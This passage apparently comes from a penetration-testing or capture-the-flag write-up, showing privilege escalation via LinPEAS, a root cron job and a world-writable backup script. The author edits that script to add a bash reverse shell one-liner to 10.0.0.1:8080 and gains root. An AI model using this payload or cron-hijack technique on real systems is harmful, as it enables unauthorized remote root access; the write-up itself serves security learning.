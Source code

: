 ![image.png](/images/sql-injection-to-reverse-shell-and-root-access/admin-panel.png)

### Privilege Escalation with LinPEAS

Now it was time to go for root. I ran **LinPEAS** to hunt for privilege escalation paths.

One thing stood out: a suspicious cron job:

```bash
* * * * * root /opt/lion/lion.backup.sh
...
```

If I had write access to that script… jackpot.

Checked permissions:

```bash
ls -l /opt/lion/lion.backup.sh
-rwxr-xrwx 1 root root 377 Mar 19  2021 /opt/lion/lion.backup.sh
```

Perfect. I edited the script to include a reverse shell payload:

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

… And got my shell… as **root**!
